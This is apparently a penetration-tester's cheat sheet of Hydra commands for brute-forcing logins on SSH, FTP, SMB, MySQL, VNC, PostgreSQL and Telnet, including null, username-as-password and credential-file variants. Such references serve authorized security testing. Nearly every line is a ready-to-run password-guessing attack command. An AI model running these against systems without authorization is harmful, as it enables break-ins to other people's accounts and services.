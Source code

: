 # Hydra

% bruteforce, hydra

## Hydra - SSH - userlist and password list - 22
```
hydra -L <userlist> -P <passlist> <ip> ssh 
```

## Hydra - SSH - user and password  - 22
```
hydra -l <user|root> -p <password|root> <ip> ssh 
```

## Hydra - SSH - user=password - 22
```
hydra -L <userlist> -e s <ip> ssh 
```

## Hydra - SSH - null password - 22
```
hydra -l <user|root> -e n <ip> ssh 
```

## Hydra - SSH - password=reverseuser - 22
```
hydra -L <userlist> -e r <ip> ssh 
```

## Hydra - SSH - file "login:pass" format - 22
```
hydra -C <file_login_pass> <ip> ssh 
```

## Hydra - FTP - 21 
```
hydra -L <userlist> -P <passlist> <ip> ftp 
```

## Hydra - SMB - 445
```
hydra -L <userlist> -P <passlist> <ip> smb
```

## Hydra - MYSQL - 3306
```
hydra -L <userlist> -P <passlist> <ip> mysql 
```

## Hydra - VNC - 5900
```
hydra -L <userlist> -P <passlist> <ip> vnc 
```

## Hydra - PostgreSQL - 5432
```
hydra -L <userlist> -P <passlist> <ip> postgres
```

## Hydra - Telnet - 23
```
hydra -L <userlist> -P <passlist> <ip> telnet 
```

= userlist: users.txt
= passlist: pass.txt
